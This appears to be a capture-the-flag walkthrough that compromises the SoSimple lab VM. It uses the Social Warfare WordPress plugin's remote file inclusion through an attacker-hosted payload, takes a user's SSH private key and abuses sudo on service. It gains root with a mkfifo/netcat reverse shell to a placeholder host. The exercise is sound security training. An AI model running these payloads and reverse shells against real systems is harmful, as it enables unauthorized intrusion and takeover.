

# SoSimple 

## Let's start !!

First, we set an IP variable

````````bash
export IP=192.168.190.78
````````

### Nmap Scan 

As always we start with our Regular Nmap Scan. 

````````bash
nmap -vv --reason -Pn -T4 -sV -sC -p- --version-all -A --osscan-guess $IP
````````

````````bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDZJ+y+c4YDmXPBY8hytP7uA0bmTKJfUnWpZn1744GxKheNmQqG98tALhL+Hz4OxWRhLzoGa/klypcYMEstzpopxZvLIUil5PPfrCTW+dwCixiULgi8Q9ImfBgKNYaQ6aog7qXG0N0GUazyJj/O2Sfx8qc32cvgh27SOOfiIvZ3s3xeh1DOqjC1kEkzJG9YeMRKRc0AC2TCtRmGbvBGL3iKjjuLS+lXxgtNEnjGI3m+n7RwgMDe0iv82ThCc1oRjeTEysstm4baIJvsdRs/trfvV/2cfAAfl77B0p6HS3rPWZYj2WCoSyG6Z3bK+kjjt+FG5V+zhQ8G4yntT/brCIXGa0iSe1vGrLk6dIrRsmbPsG3V3dkggyOL/aWkL6Q2bnb3suFINJ98Hvjd9Pe3ngsnv5iefgRaHwu/GgP7sVpLsKGdvo2smS7PTmHrZFqP74SeGC+TQ2BIhxYe9uAoL5NRappcCyA0ZF3kB9907nSggM/1bZ2uXnWqzKwPD5dBvTM=
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO/ko3XtMH5m6keCi750yCg/B93iEWSBbyGrmJZ4sHThaowuRlW6sm/WuHR6AUeoCsU0su07XVlgPtCJOf35ByU=
|   256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKkLRPLyIQqo5WToErae3vTYq6M2ZYupOFtsl1oNG0rp
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%), Linux 3.5 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/2%OT=22%CT=1%CU=39152%PV=Y%DS=2%DC=T%G=Y%TM=63122D56
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10D%TI=Z%TS=A)SEQ(SP=107%GCD
OS:=1%ISR=10D%TI=Z%II=I%TS=A)OPS(O1=M54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11
OS:NW7%O4=M54EST11NW7%O5=M54EST11NW7%O6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE8
OS:8%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164
OS:%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 38.226 days (since Tue Jul 26 16:25:26 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   178.20 ms 192.168.49.1
2   178.45 ms 192.168.65.78

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

````````
so we have ports 22,80 open. I have enumerated port 80 (HTTP) because there is nothing on port 22 (ssh).

### Directory Enumeration  

````````bash
feroxbuster -u http://$IP:80/ -t 10 -w /root/.config/AutoRecon/wordlists/dirbuster.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -q -e
````````

````````python

200      GET      207l     1079w    47258c http://192.168.65.78/so-simple.png
200      GET       77l       39w      495c http://192.168.65.78/
403      GET        9l       28w      278c http://192.168.65.78/.html
403      GET        9l       28w      278c http://192.168.65.78/.php
403      GET        9l       28w      278c http://192.168.65.78/.hta
403      GET        9l       28w      278c http://192.168.65.78/.htaccess
403      GET        9l       28w      278c http://192.168.65.78/.hta.txt
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.txt
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd
403      GET        9l       28w      278c http://192.168.65.78/.hta.html
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.html
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.txt
403      GET        9l       28w      278c http://192.168.65.78/.hta.php
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.php
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.html
403      GET        9l       28w      278c http://192.168.65.78/.hta.asp
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.asp
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.php
403      GET        9l       28w      278c http://192.168.65.78/.hta.aspx
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.aspx
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.asp
403      GET        9l       28w      278c http://192.168.65.78/.hta.jsp
403      GET        9l       28w      278c http://192.168.65.78/.htaccess.jsp
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.aspx
403      GET        9l       28w      278c http://192.168.65.78/.htpasswd.jsp
200      GET       77l       39w      495c http://192.168.65.78/index.html
403      GET        9l       28w      278c http://192.168.65.78/server-status
301      GET        9l       28w      318c http://192.168.65.78/wordpress => http://192.168.65.78/wordpress/
200      GET        1l        1w      137c http://192.168.65.78/mybackup.txt

`````````
Here, I have done some directory busting and found some juicy items wordpress,mybackup.txt.

### Web Enumeration 


 
We have a default WordPress page. Let's enumerate more on this page...

#### WordPress users Enumeration 

````````bash
wpscan --url http://$IP/wordpress/ -e u
````````

````````bash
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.190.78/wordpress/ [192.168.190.78]
[+] Started: Sun Sep  4 00:39:11 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.190.78/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.190.78/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.190.78/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.190.78/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.190.78/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://192.168.190.78/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.6
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.6, Match: 'Version: 1.6'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.190.78/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] max
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Sep  4 00:39:23 2022
[+] Requests Done: 55
[+] Cached Requests: 6
[+] Data Sent: 15.248 KB
[+] Data Received: 567.74 KB
[+] Memory used: 201.039 MB
[+] Elapsed time: 00:00:12

````````
we got `admin` and `max` we can bruteforce with this username late but for now, let's check what plugins are used here.  


````````bash
wpscan --url http://$IP/wordpress/ -e ap
````````

````````bash
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.190.78/wordpress/ [192.168.190.78]
[+] Started: Sun Sep  4 00:40:46 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.190.78/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.190.78/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.190.78/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.190.78/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.190.78/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://192.168.190.78/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.6
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.190.78/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.6, Match: 'Version: 1.6'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] simple-cart-solution
 | Location: http://192.168.190.78/wordpress/wp-content/plugins/simple-cart-solution/
 | Last Updated: 2022-04-17T20:50:00.000Z
 | [!] The version is out of date, the latest version is 1.0.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 0.2.0 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://192.168.190.78/wordpress/wp-content/plugins/simple-cart-solution/assets/dist/js/public.js?ver=0.2.0
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.190.78/wordpress/wp-content/plugins/simple-cart-solution/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.190.78/wordpress/wp-content/plugins/simple-cart-solution/readme.txt

[+] social-warfare
 | Location: http://192.168.190.78/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Comment (Passive Detection)
 |
 | Version: 3.5.0 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.190.78/wordpress/, Match: 'Social Warfare v3.5.0'
 | Confirmed By:
 |  Query Parameter (Passive Detection)
 |   - http://192.168.190.78/wordpress/wp-content/plugins/social-warfare/assets/css/style.min.css?ver=3.5.0
 |   - http://192.168.190.78/wordpress/wp-content/plugins/social-warfare/assets/js/script.min.js?ver=3.5.0
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.190.78/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.190.78/wordpress/wp-content/plugins/social-warfare/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Sep  4 00:40:51 2022
[+] Requests Done: 6
[+] Cached Requests: 34
[+] Data Sent: 1.859 KB
[+] Data Received: 41.8 KB
[+] Memory used: 226.047 MB
[+] Elapsed time: 00:00:04

````````
Here use got `simple-cart-solution` and `social-warfare`. I have researched about those and got social-warfare is vulnerable with RCE. So let's exploit it. 

Reference:- https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618

### Exploititaion 

First, we need to create a file called ``payload.txt``  

````````bash
<pre>system('PUT OUR REVERSE_SHELL HERE')</pre>
```````` 
then host it into our HTTP web server

````````bash
python3 -m http.server 80
````````


#### Note:- Start your listener before...

````````bash
/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://YOUR-IP/payload.txt
````````


!!!YEA!!! We have a shell... 

### Getting initial access Flag

````````python
pwncat-cs -lp 1234                    
[00:47:27] Welcome to pwncat 🐈!                                                                                                                             __main__.py:164
[00:49:34] received connection from 192.168.190.78:38454                                                                                                          bind.py:84
[00:49:37] 0.0.0.0:1234: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                        manager.py:957
[00:49:39] 192.168.190.78:38454: registered new host w/ db                                                                                                    manager.py:957
(local) pwncat$                                                                                                                                                             
(remote) www-data@so-simple:/var/www/html/wordpress/wp-admin$ cd /home
(remote) www-data@so-simple:/home$ cd max
(remote) www-data@so-simple:/home/max$ ls
local.txt  personal.txt  this  user.txt
(remote) www-data@so-simple:/home/max$ cat local.txt 
{Do IT YOUR SELF}
(remote) www-data@so-simple:/home/max$ 

````````
Cool! We got our first flag. Let's escalate our Privilege to root.

### Privilage Esculation 

````````python
(remote) www-data@so-simple:/home/max$ ls -la
total 52
drwxr-xr-x 7 max  max  4096 Aug 22  2020 .
drwxr-xr-x 4 root root 4096 Jul 12  2020 ..
lrwxrwxrwx 1 max  max     9 Aug 22  2020 .bash_history -> /dev/null
-rw-r--r-- 1 max  max   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 max  max  3810 Jul 12  2020 .bashrc
drwx------ 2 max  max  4096 Jul 12  2020 .cache
drwx------ 3 max  max  4096 Jul 12  2020 .gnupg
drwxrwxr-x 3 max  max  4096 Jul 12  2020 .local
-rw-r--r-- 1 max  max   807 Feb 25  2020 .profile
drwxr-xr-x 2 max  max  4096 Jul 14  2020 .ssh
-rw-r--r-- 1 max  max    33 Sep  3 19:08 local.txt
-rw-r--r-- 1 max  max    49 Jul 12  2020 personal.txt
drwxrwxr-x 3 max  max  4096 Jul 12  2020 this
-rwxr-x--- 1 max  max    43 Aug 22  2020 user.txt
(remote) www-data@so-simple:/home/max$ cd .ssh
(remote) www-data@so-simple:/home/max/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
(remote) www-data@so-simple:/home/max/.ssh$    
(local) pwncat$ download id_rsa
id_rsa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.6/2.6 KB • ? • 0:00:00
[00:56:45] downloaded 2.60KiB in 1.22 seconds                                                                                                                 download.py:71
(local) pwncat$

````````
In order to use id_rsa, we need to change its permissions. run: ``chmod 600 id_rsa``

````````python
pwncat-cs max@$IP -i id_rsa
[01:01:00] Welcome to pwncat 🐈!                                                                                                                             __main__.py:164
[01:01:06] 192.168.190.78:22: registered new host w/ db                                                                                                       manager.py:957
(local) pwncat$                                                                                                                                                             
(remote) max@so-simple:/home/max$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
(remote) max@so-simple:/home/max$ sudo -u steven /usr/sbin/service ../../bin/sh
$ whoami
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
steven@so-simple:/$ cd /home/steven/
steven@so-simple:/home/steven$ cat user2.txt 
This is not the flag you're looking for..
steven@so-simple:/home/steven$ 
steven@so-simple:/home/steven$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
steven@so-simple:/home/steven$ cd /opt
steven@so-simple:/opt$ ls

````````
Interesting.. no directory not a problem. lets create them

````````python
steven@so-simple:/opt$ mkdir tools
steven@so-simple:/opt$ cd tools
steven@so-simple:/opt/tools$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR-IP 443 >/tmp/f' > server-health.sh
steven@so-simple:/opt/tools$ chmod +x server-health.sh
steven@so-simple:/opt/tools$ sudo -u root /opt/tools/server-health.sh
rm: cannot remove '/tmp/f': No such file or directory

````````
## NOTE: Start your Listener First

````````python
pwncat-cs -lp 443                     
[01:11:53] Welcome to pwncat 🐈!                                                                                                                                              __main__.py:164
[01:11:55] received connection from 192.168.190.78:55410                                                                                                                           bind.py:84
[01:11:58] 0.0.0.0:443: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                                          manager.py:957
[01:12:00] 192.168.190.78:55410: registered new host w/ db                                                                                                                     manager.py:957
(local) pwncat$                                                                                                                                                                              
(remote) root@so-simple:/opt/tools# whoami
root
(remote) root@so-simple:/opt/tools# cd 
(remote) root@so-simple:/root# ls
flag.txt  proof.txt  snap
(remote) root@so-simple:/root# cat flag.txt 
This is not the flag you're looking for...
(remote) root@so-simple:/root# cat proof.txt 
{DO IT YOUR SELF}
(remote) root@so-simple:/root# 

````````
- Done


